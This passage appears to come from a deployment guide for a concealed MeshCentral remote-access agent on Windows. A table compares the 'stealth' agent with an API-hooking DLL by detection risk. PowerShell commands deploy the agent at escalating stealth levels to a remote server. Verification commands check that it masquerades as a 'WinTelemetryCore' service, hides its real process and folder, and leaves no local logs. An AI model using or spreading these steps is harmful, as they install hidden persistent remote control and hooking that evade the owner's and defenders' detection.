 **Key Differences:**

| Feature | MeshAgent Stealth | UserModeHook | Combined Deployment |
|---------|-------------------|--------------|---------------------|
| Purpose | Remote management | API hooking | Both capabilities |
| Network Footprint | Persistent connection | None (local only) | MeshAgent connection only |
| File System | Single executable + config | DLL + Service | Both components |
| Registry Footprint | Service registration | Service registration | Two services (can combine) |
| Detection Risk | Medium (network traffic) | Low (local only) | Medium (network traffic) |
| Deployment Complexity | Medium | Low | High |
| Maintenance | Auto-update capable | Manual updates | Complex coordination |

**Recommendation:** Deploy MeshAgent first for remote access, then deploy UserModeHook via MeshAgent plugin (see `MESHCENTRAL_DEPLOYMENT.md`).

---

## Appendix D: Quick Reference Commands

### Deployment
```powershell
# Deploy stealth agent (Basic level)
.\Deploy-StealthMeshAgent.ps1 -MeshServerUrl "https://your-server.com" -StealthLevel Basic

# Deploy stealth agent (Advanced level - RECOMMENDED)
.\Deploy-StealthMeshAgent.ps1 -MeshServerUrl "https://your-server.com" -StealthLevel Advanced

# Deploy stealth agent (Expert level)
.\Deploy-StealthMeshAgent.ps1 -MeshServerUrl "https://your-server.com" -StealthLevel Expert
```

### Verification
```powershell
# Quick stealth check
Get-Service -Name 'WinTelemetryCore' | Format-List Status,DisplayName
Get-Service -Name 'Mesh Agent' -ErrorAction SilentlyContinue  # Should return nothing
Get-Process -Name 'meshagent' -ErrorAction SilentlyContinue    # Should return nothing
Test-Path "C:\Program Files\Mesh Agent"                        # Should return False
```

### Maintenance
```powershell
# Restart stealth service
Restart-Service -Name 'WinTelemetryCore'

# Check service logs (remote server only - no local logs)
# Access via MeshCentral web interface

# Force service update
# Triggered automatically by MeshCentral server
```
